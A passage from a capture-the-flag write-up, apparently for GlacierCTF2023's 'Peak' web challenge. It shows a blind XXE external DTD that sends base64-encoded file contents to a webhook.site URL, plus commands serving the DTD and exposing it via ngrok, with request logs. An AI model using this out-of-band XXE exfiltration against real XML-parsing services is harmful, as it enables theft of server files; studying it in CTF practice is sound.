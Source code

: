 4 - To exfiltrate the flag we used webhook.site, but we could also use the ngrok URL. The external DTD will use the %file entity from the XML payload, which will contain the flag encoded with base64 once loaded:

```xml


<!ENTITY % all "<!ENTITY send SYSTEM 'https://webhook.site/9d1d47f3-4fe5-40fa-b395-0dc74273782c/?collect=%file;'>">
%all;

```

5 - Create the server and expose the port


```bash
# files created
kali@kali:~/Desktop/CTFs/GlacierCTF2023/Web/Peak$ ls    
challenge.zip  dist  evil.dtd  html.html  test.dtd

# Serve the files and wait for requests
kali@kali:~/Desktop/CTFs/GlacierCTF2023/Web/Peak$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
127.0.0.1 - - [25/Nov/2023 19:19:26] "GET /html.html HTTP/1.1" 200 -
127.0.0.1 - - [25/Nov/2023 19:19:27] "GET /evil.dtd HTTP/1.1" 200 -

# Use ngrok to expose localhost
kali@kali:~/Desktop/CTFs/GlacierCTF2023/Web/Peak$ ngrok http 8081

Web Interface                 http://127.0.0.1:4040                                                  
Forwarding                    https://3f56-92-56-131-173.ngrok-free.app -> http://localhost:8081     
                                                                                                     
Connections                   ttl     opn     rt1     rt5     p50     p90                            
                              3       0       0.00    0.00    0.00    0.00                           
                                                                                                     
HTTP Requests                                                                                        
-------------                                                                                        
                                                                                                     
GET /evil.dtd                  200 OK                                                                
GET /html.html                 200 OK                                                                
GET /                          200 OK 
```


And we get the flag on the collect parameter as expected on webhook.site:
